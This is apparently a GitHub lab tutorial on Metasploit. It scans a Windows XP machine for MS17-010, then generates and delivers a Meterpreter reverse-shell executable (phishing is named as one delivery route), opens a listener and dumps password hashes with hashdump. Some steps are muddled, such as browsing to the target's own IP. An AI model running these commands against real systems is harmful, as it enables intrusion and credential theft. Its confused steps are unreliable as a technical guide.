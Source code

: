 # METASPLOIT

## 1. What is METASPLOIT?
Metasploit is a security tool used for penetration testing, information gathering, scanning, exploiting vulnerabilities, etc. Metasploit is available on most Kali machines, if not you can install it by following [this](https://help.rapid7.com/metasploit/Content/installation-and-updates/installing-msf.html)

## 2. OBJECTIVE.
This project aims to identify vulnerabilities, exploit vulnerabilities, and gain credential hashes using Metasploit.

## 3. IDENTIFYING A VULNERABILITY IN A WINDOWS MACHINE.
### Prerequisites
- Kali Linux machine.
- A Windows machine with the MS17_010 vulnerability(eg. Windows XP)
### STEP1
Start Metasploit by typing **msfconsole** in the command prompt of your Kali machine.
```
msfconsole
```
### STEP2
The target vulnerability is the MS17_010 which allows remote code execution on a Windows Server Message Block(SMB) server. Several SMB vulnerabilities can be exploited by attackers for malicious purposes. You can explore the various vulnerabilities using the command:
```
search module smb
```
### STEP3
For this project, we are exploiting the MS17_010 vulnerability, so go through the numerous vulnerabilities and select the one below:

![Kali-Linux-2024  Running  - Oracle VM VirtualBox 07_03_2025 14_28_42](https://github.com/user-attachments/assets/e51aa712-4e59-4a69-8915-0883e474f5fc)
#### For further information on this vulnerability, run:
```
search module auxiliary/scanner/smb/smb_ms17_010
```
#### Then use the selected vulnerability:
```
use auxiliary/scanner/smb/smb_ms17_010
```
### STEP4
Select the remote host to test the vulnerability(ie. Windows XP machine)
```
set RHOSTS <target machine IP address>
```
### STEP5
Test for the vulnerability:
```
run
```

## 4. EXPLOITING THE VULNERABILITY.
For this exploitation, we are going to use a Materpreter reverse shell payload. From this payload we gain a reverse connection from the target machine to the attacker machine, giving the attacker machine elevated privileges to run any command.
### STEP 1
Use Metaspoilt to generate the payload. The payload is a malicious code that exploits a vulnerability when run on a vulnerable machine.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST =<attacker IP> LPORT=<port number> -f exe -o reverse_shell_32.exe
```
### STEP 2
Transfer the generated payload to the target machine. There are several ways to transfer the payload. Eg. File Sharing, Email Phishing, HTTP Server etc.
I used the HTTP Server method, by setting up an HTTP server on the attacker machine:
```
python3 -m http.server 8080
```
Then on the target machine, I open a browser and type in the address of the attacker machine, **http:<target_machine_IP>:8080**
Depending on the machine, there is a download request for the payload or you access the files on the attacker machine and manually download the payload to the target machine.

### STEP 3
Start the Metasploit console.
```
msfconsole
```
Then set a listener to listen for incoming connections, the listener is the attacker machine
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST <attacker_IP>
set LPORT <port_number>
exploit
```
### STEP 4
Execute the payload on the target machine. This initiates a reverse connection to the attacker's listener and sets a meterpreter session up. Giving the attacker machine escalated privileges over the target machine.
Through the meterpreter session, the attacker machine can dump password hashes, gain system-level privileges, and capture webcam and microphones on the target machine.

## CREDENTIAL HASHES
From the meterpreter session, you can get the hashed value of the administrator's password and others in the database using the command
```
hashdump
```
## HAPPY LEARNING !!!










  
